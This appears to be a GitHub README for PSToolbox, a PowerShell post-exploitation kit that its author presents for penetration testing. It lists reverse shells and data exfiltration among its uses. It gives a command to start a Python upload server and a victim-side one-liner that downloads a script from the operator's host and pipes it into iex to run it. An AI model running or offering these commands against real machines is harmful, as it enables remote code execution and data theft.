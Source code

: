 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine.
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.
At this time, I have only added to the directory the tools that I have created. For the other tools referenced in the gettoolbox.ps1 file you will need to add them yourself.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
***NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.


This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments
